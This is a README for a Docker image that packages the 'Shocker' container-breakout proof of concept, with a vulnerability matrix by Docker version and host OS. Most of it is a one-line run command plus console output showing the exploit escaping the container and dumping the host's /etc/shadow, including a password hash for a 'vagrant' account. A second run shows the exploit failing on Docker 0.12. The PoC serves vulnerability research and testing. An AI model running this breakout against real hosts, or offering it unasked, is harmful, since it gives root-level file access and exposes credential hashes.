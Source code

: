 # Shocker / Docker Breakout PoC

This is a Docker Image used to test container breakout exploit first posted here:
http://stealth.openwall.net/xSports/shocker.c

The container will attempt to find and print contents of the Docker host's /etc/shadow.

## Usage

To run the PoC exploit use:

    docker run gabrtv/shocker

## Building

To modify source and rebuild, use:

    docker build -t gabrtv/shocker .

## Vulnerability Matrix

Simple table outlining vulnerability to **this particular** exploit.  PRs welcome!

| Docker Version | Docker Host OS    | Vulnerable? |
| -------------- | ----------------- | ----------- |
| 0.8.1          | Ubuntu 12.04 LTS  | Yes         |
| 0.10.0         | Ubuntu 12.04 LTS  | Yes         |
| 0.11.0         | Ubuntu 12.04 LTS  | Yes         |
| 0.11.1         | CoreOS v324.2.0   | Yes         |
| 0.11.1         | Ubuntu 12.04 LTS  | Yes         |
| 0.12.0         | Ubuntu 12.04 LTS  | No          |
| 1.0            | Boot2Docker       | No          |
| 1.0            | CoreOS v343.0.0+  | No          |
| 1.0            | Ubuntu 12.04 LTS  | No          |

## Examples

Confirmed vulnerable: Docker 0.11.1 running Ubuntu 12.04 LTS

```
root@precise64:~# docker version
Client version: 0.11.1
Client API version: 1.11
Go version (client): go1.2.1
Git commit (client): fb99f99
Server version: 0.11.1
Server API version: 1.11
Git commit (server): fb99f99
Go version (server): go1.2.1
Last stable version: 1.0.0, please update docker

root@precise64:~# docker info
Containers: 6
Images: 10
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Dirs: 22
Execution Driver: native-0.2
Kernel Version: 3.8.0-42-generic
WARNING: No swap limit support

root@precise64:~# docker run gabrtv/shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[*] Found vmlinuz
[*] Found vagrant
[*] Found lib64
[*] Found usr
[*] Found ...
[*] Found etc
[+] Match: etc ino=3932161
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found timezone
[*] Found cron.hourly
...
[*] Found skel
[*] Found shadow
[+] Match: shadow ino=3935729
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf1, 0x0d, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xf1, 0x0d, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
root:!:15597:0:99999:7:::
daemon:*:15597:0:99999:7:::
bin:*:15597:0:99999:7:::
sys:*:15597:0:99999:7:::
sync:*:15597:0:99999:7:::
games:*:15597:0:99999:7:::
man:*:15597:0:99999:7:::
lp:*:15597:0:99999:7:::
mail:*:15597:0:99999:7:::
news:*:15597:0:99999:7:::
uucp:*:15597:0:99999:7:::
proxy:*:15597:0:99999:7:::
www-data:*:15597:0:99999:7:::
backup:*:15597:0:99999:7:::
list:*:15597:0:99999:7:::
irc:*:15597:0:99999:7:::
gnats:*:15597:0:99999:7:::
nobody:*:15597:0:99999:7:::
libuuid:!:15597:0:99999:7:::
syslog:*:15597:0:99999:7:::
messagebus:*:15597:0:99999:7:::
ntp:*:15597:0:99999:7:::
sshd:*:15597:0:99999:7:::
vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
vboxadd:!:15597::::::
statd:*:15597:0:99999:7:::
```

Exploit fails on Docker 0.12:

```
root@precise64:~# docker version
Client version: 0.12.0
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 14680bf
Server version: 0.12.0
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 14680bf

root@precise64:~# docker info
Containers: 5
Images: 10
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Dirs: 20
Execution Driver: native-0.2
Kernel Version: 3.8.0-42-generic
WARNING: No swap limit support

root@precise64:~# docker run gabrtv/shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[-] open_by_handle_at: Operation not permitted
```

## License

BSD
